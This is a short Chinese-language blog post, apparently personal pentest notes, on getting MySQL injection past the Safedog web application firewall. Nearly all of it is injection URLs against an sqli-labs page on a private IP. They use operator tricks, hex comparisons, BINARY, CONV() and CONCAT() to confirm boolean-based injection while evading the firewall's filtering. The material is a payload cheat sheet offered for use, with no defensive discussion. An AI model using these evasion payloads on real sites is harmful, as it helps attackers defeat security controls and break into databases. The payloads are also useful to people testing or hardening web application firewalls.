 ```yaml
---
title: "Bypass MySQL Safedog"
date: 2019-10-10T21:58:09+08:00
draft: false
tags: []
categories: ['bypass']
---
```


日狗



## 判断注入

安全狗不让基本运算符后跟数字字符串

特殊运算符绕

```
http://172.16.1.157/sql/Less-1/?id=1'and -1=-1 -- + 正常
http://172.16.1.157/sql/Less-1/?id=1'and -1=-2 -- + 不正常
http://172.16.1.157/sql/Less-1/?id=1'and ~1=~1 -- +	正常
http://172.16.1.157/sql/Less-1/?id=1'and ~1=~2 -- +	不正常
```

16进制绕

```
http://172.16.1.157/sql/Less-1/?id=1' and 0x0 <> 0x1-- +	正常
http://172.16.1.157/sql/Less-1/?id=1' and 0x0 <> 0x0-- +	不正常
http://172.16.1.157/sql/Less-1/?id=1' and 0x0 <=> 0x0-- +	正常
http://172.16.1.157/sql/Less-1/?id=1' and 0x0 <=> 0x1-- +	不正常
http://172.16.1.157/sql/Less-1/?id=1' and 0x0 xor 0x1-- +	正常
http://172.16.1.157/sql/Less-1/?id=1' and 0x0 xor 0x0-- +	不正常
```

BINARY绕

```
http://172.16.1.157/sql/Less-1/?id=1' and BINARY 1-- +	正常
http://172.16.1.157/sql/Less-1/?id=1' and BINARY 0-- +	不正常
```

conv()函数绕

```
http://172.16.1.157/sql/Less-1/?id=1' and CONV(1,11,2)-- +	正常
http://172.16.1.157/sql/Less-1/?id=1' and CONV(0,11,2)-- +	不正常
```

concat()函数绕

```
http://172.16.1.157/sql/Less-1/?id=1' and CONCAT(1)-- +		正常
http://172.16.1.157/sql/Less-1/?id=1' and CONCAT(0)-- +		不正常
```
